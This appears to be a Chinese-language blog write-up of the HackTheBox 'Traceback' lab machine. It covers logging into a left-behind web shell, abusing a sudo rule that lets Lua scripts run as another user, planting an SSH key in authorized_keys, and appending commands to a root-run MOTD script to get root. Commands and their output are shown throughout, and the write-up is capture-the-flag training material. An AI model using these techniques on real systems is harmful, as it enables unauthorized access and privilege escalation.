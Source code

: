 ```yaml
---
title: HackTheBox::Traceback
date: 2020-07-17
image: https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120180751.png
description: 
categories: 
- 渗透
tags:
- 提权
---
```

打开是一个黑页

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120180759.png)

看源码有一句hint：

```
<!--Some of the best web shells that you might need ;)-->
```

 

### 利用已有的webshell获得webadmin权限

扫目录，无果，尝试直接Google这句话，果然找到了作者的Github，在作者列出的一堆shell里面一个个尝试，最后找到了[smevk.php](https://github.com/Xh4H/Web-Shells/blob/master/smevk.php)，用户密码admin就进去了，然后直接上传文件getshell。

在/home目录下发现两个文件夹，其中sysadmin没有权限访问，webadmin里面有个note.txt：

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

 

然后我们可以查看webadmin的.bash_history：

.bash_history

 

 

好吧其实这才是原版：

```
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
rm privesc.lua
logout
```

大概就是通过 `/home/sysadmin/luvit` 这个东西来执行lua脚本，找了半天并没有找到privesc.lua，我们可以新建一个来执行，由于lua可以用sysadmin权限执行，我们得以读取/home/sysadmin/user.txt；

查看webadmin的权限：

```
(webadmin:/var/www/html) $ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
(webadmin:/var/www/html) $
```

privesc.lua：

```
os.execute("ls /home/sysadmin/")
os.execute("cat /home/sysadmin/user.txt")
```

 

两次分别用蚁剑终端执行：

```
(webadmin:/home/webadmin) $ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
luvit
user.txt
(webadmin:/home/webadmin) $ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
faca73f508ba5f752100d6de13500714
(webadmin:/home/webadmin) $
```

 

### 写公钥获得sysadmin的SSH

运行命令生成RAS公私钥对：

```
ssh-keygen -t rsa
```

 

保存到当前目录，我们可以看到生成了两个文件：

```
root@wh1sper:~/HTB/machine/Traceback# ls -a
.  ..  id_rsa  id_rsa.pub  pspy64  pspy64s  unix-privesc-check  unix-privesc-check.tar
root@wh1sper:~/HTB/machine/Traceback#
```

其中 `id_rsa.pub` 是公钥，我们利用webshell把他上传到 `/home/username/.ssh/authorized_keys` 这个文件里面就可以获得这个user的权限。

既然lua脚本可以读写sysadmin的目录，我们便利用他写sysadmin的公钥：

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120180809.png)

 

随后执行命令，用私钥登录SSH：

```
ssh -i id_rsa sysadmin@10.10.10.181
```

可以看到我们是sysadmin了。

 

### 利用pspy工具在没有root的情况下监视高权限进程



pspy工具地址：

https://github.com/DominicBreuker/pspy

https://github.com/Tib3rius/pspy



利用webshell上传到服务器，在当前目录执行：

```
./pspy64 
```

 

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120180819.png)

 

可以看到

标机器每30秒会执行一个cp命令，把一些文件从backup目录复制到/etc/update-motd.d/

```
/bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```

 

我们去查看这个目录下有什么东西：

```
$ cd /etc/update-motd.d/
$ pwd
/etc/update-motd.d
$ ls
00-header  10-help-text  50-motd-news  80-esm  91-release-upgrade
$ cat 00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
 
[ -r /etc/lsb-release ] && . /etc/lsb-release
 
 
echo "\nWelcome to Xh4H land \n"
$ 
```

 

是不是很熟悉呢？在刚刚登录的时候也是见到了这句话： `Welcome to Xh4H land`

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120180829.png)

 

随后我们监视到，每次登录SSH都会执行以下命令：

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120180839.png)

其中能找到这样一条：

```
CMD: UID=0    PID=2007   | /bin/sh /etc/update-motd.d/00-header
```

 

 

### 利用root权限运行的脚本弹shell

目的很明确了，这个00-header脚本是用root执行的，我们测试一下：

```
$ echo 'id' >> 00-header
$ exit
root@wh1sper:~/HTB/machine/Traceback# ssh -i id_rsa sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
 
Welcome to Xh4H land 
 
uid=0(root) gid=0(root) groups=0(root)
 
 
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
 
Last login: Sat Jul 18 02:23:33 2020 from 10.10.14.98
$
```

 

 

id被执行了。不过这个00-header文件好像一直在被还原，手速要快。

弹之：

~~md蜜汁环境弹不过来~~

反正我们知道/root/root.txt，直接`echo 'cat /root/root.txt' >> 00-header`

然后登录就能看到了：

```
echo 'cat /root/root.txt' >> 00-headerroot@wh1sper:~/HTB/machine/Traceback# ssh -i id_rsa sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
 
Welcome to Xh4H land 
 
96c02bb36b51b8f45d59482a4b0c1aba
 
 
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
 
Last login: Sat Jul 18 02:31:58 2020 from 10.10.14.98
$
```

环境一直有人搅屎。。。建议在美国晚上的时候打